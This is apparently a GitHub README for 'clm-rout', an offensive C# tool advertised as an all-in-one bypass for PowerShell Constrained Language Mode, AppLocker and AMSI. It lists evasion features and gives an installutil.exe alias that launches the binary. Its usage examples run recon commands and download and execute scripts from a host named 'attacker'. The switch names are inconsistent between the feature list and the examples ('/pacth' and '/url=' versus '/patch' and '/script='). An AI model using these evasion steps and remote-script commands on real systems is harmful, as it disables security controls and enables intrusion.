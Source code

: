 # clm-rout

[![Language](https://img.shields.io/badge/Lang-C%23-blue)](https://docs.microsoft.com/en-gb/powershell/)
[![License](https://img.shields.io/badge/License-BSD%203-red.svg)](https://docs.microsoft.com/en-us/dotnet/csharp/)

## An all-in-one bypass for `PowerShell Constrained Language Mode` (`CLM`), `AppLocker` and `Antimalware Scan Interface` (`AMSI`) using Runspace.

## Features

- Evade `AppLocker`.
- Evade `CLM`.
- Patch `AMSI` via the `/pacth` command switch.
- Execute command(s) via the `/cmd=<cmd>` command switch.
- Load and execute remotely hosted script(s) via the `/url=<http(s)://foo.bar/foobar>` command switch.
- Output the results of commands/scripts (supports `stdout` and `stderr`).

## Installation

1. Clone/download `clm-rout`:

    ```powershell
    git clone https://github.com/aress31/clm-rout
    ```

2. Build the project with `Visual Studio 2022`.

## Usage

- (Recommended) Create an "alias":

```powershell
function run {
	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe `
		/uninstall /logfile= /LogToConsole=false `
		/patch $Args `
		C:\users\foo\CLMRout.exe
}
```

### Examples

- Execute command(s):

    ```powershell
    run /cmd="hostname; whoami"
    ```

- Execute remote script(s):

    ```powershell
    run /script="http://attacker/script1.ps1; http://attacker/script2.ps1"
    ```

- Execute remote script(s) followed by command(s):

    ```powershell
    run /cmd="hostname; whoami" /script="http://attacker/script1.ps1; http://attacker/script2.ps1"
    ```

## Sponsor 💓

If you want to support this project and appreciate the time invested in developping, maintening and extending it; consider donating toward my next (cup of coffee ☕/lamborghini 🚗) - as **a lot** of my **personal time** went into creating this project. 😪

It is easy, all you got to do is press the `Sponsor` button at the top of this page or alternatively [click this link](https://github.com/sponsors/aress31). 😁

## Reporting Issues

Found a bug 🐛? I would love to squash it!

Please report all issues on the GitHub [issues tracker](https://github.com/aress31/clm-rout/issues).

## Contributing

You would like to contribute to better this project? 🤩

Please submit all `PRs` on the GitHub [pull requests tracker](https://github.com/aress31/clm-rout/pulls).

## License

`clm-rout` is distributed under the terms of the `BSD 3`.

See [LICENSE](./LICENSE) for details.
